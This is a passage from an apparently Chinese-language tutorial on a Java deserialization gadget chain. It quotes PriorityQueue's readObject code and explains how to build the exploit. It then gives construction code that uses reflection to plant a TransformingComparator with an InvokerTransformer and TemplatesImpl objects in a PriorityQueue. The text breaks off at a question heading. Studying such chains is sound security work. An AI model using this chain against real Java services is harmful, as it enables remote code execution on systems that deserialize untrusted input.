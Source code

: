 ```java
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();//4
    }
```

阅读源码可知PriorityQueue在反序列化readObject时，会按照注释中4、3、2、1标注的顺序，维护一个桶排序树合法。

接下来就是要如何构造comparator和queue了。

根据注释1处，我们知道comparator应该是TransformingComparator的一个实例。

根据TemplatesImpl和InvokerTransformer的分析，我们知道queue应该是TemplatesImpl实例数组。

于是有Exp中的构造：

```java
    InvokerTransformer transformer=new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
    TransformingComparator comparator =new TransformingComparator(transformer);//使用TransformingComparator修饰器传入transformer对象
    PriorityQueue queue = new PriorityQueue(2);//使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
    queue.add(1);//
    queue.add(2);//占位用

    Field field2=queue.getClass().getDeclaredField("comparator");//获取PriorityQueue的comparator字段
    field2.setAccessible(true);//暴力反射
    field2.set(queue,comparator);//设置queue的comparator字段值为comparator

    Field field3=queue.getClass().getDeclaredField("queue");//获取queue的queue字段
    field3.setAccessible(true);//暴力反射
    field3.set(queue,new Object[]{templatesImpl,templatesImpl});//设置queue的queue字段内容Object数组，内容为templatesImpl
```

### 问题补充

#### queue占位

Q1：
